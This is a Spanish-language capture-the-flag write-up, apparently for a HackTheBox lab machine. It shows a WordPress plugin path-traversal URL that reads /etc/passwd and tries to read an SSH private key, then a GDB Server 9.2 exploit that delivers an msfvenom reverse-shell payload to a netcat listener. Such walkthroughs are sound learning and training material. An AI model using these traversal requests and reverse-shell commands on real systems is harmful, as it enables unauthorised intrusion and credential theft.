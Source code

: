 En este caso encontramos el usuario **`worpressuser`** y el hash de la contraseña. No he logrado indentificar el tipo de hash.
Podemos descargar el archivo **`/etc/passwd`** para listar los usuarios existentes en el sistema.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```

```console
p3ntest1ng:~$ cat passwd | grep -v "false\|nologin" | tr ":" " " | column -t
/etc/passwd/etc/passwd/etc/passwdroot  x  0     0      root  /root       /bin/bash
sync                                   x  4     65534  sync  /bin        /bin/sync
user                                   x  1000  1000   user  /home/user  /bin/bash
```

Conociendo el usuario, podemos intentar descargarnos el archivo **`id_rsa`** para conectarnos por SSH.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../home/user/.ssh/id_rsa
```

Sin embargo esto no funciona, tal vez no tenemos permisos, probemos otra cosa. 
Si volvemos a fijarnos en los puertos encontrados, vemos que el **1337** está cerrado. Este puerto es utilizado por [GDB Server](https://www.man7.org/linux/man-pages/man1/gdbserver.1.html)
Buscando un poco en Google, he encontrado este exploit para la versión **`9.2`**: [https://www.exploit-db.com/exploits/50539](https://www.exploit-db.com/exploits/50539)
Vamos a descargarlo en nuestra máquina y comprobemos si es vulnerable. Vamos a utilizar **`msfvenom`** para generar el payload.

```console
p3ntest1ng:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.114 LPORT=9999 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```

Ahora nos ponemos en escucha por el puerto **`9999`** con **`netcat`**. Y ejecutamos el exploit:

```console
p3ntest1ng:~$ python3 gdbserver92_exploit.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.114] from (UNKNOWN) [10.10.11.125] 35514
python3 -c "import pty; pty.spawn('/bin/bash')"
```
